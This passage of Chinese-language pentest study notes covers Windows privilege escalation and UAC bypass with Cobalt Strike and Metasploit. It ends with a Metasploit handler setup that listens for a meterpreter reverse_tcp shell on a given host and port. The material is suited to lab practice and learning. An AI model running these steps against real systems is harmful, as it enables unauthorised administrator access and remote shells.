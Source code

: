 ![image-20241016000343397](操作系统提权/image-20241016000343397.png)	

```
此时电脑重启提权成功。
```

![image-20241016000504345](操作系统提权/image-20241016000504345.png)	

## 绕过UAC提权

### MSF和CS绕过UAC的方法和插件

```
右键点击提权，选择绕过UAC的方法。
```

![image-20241016124952925](操作系统提权/image-20241016124952925.png)	

```
带有星号,于是绕UAC成功，
```

![image-20241016125014936](操作系统提权/image-20241016125014936.png)	

```
MSF绕过UAC 
bypassuac模块 
使用该模块提权的使用，当前用户必须是管理员组中的用户，UAC为默认设置
首先使用msf先进行监听靶机。
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set lhost 192.168.15.141
set lport 7777
exploit 
```

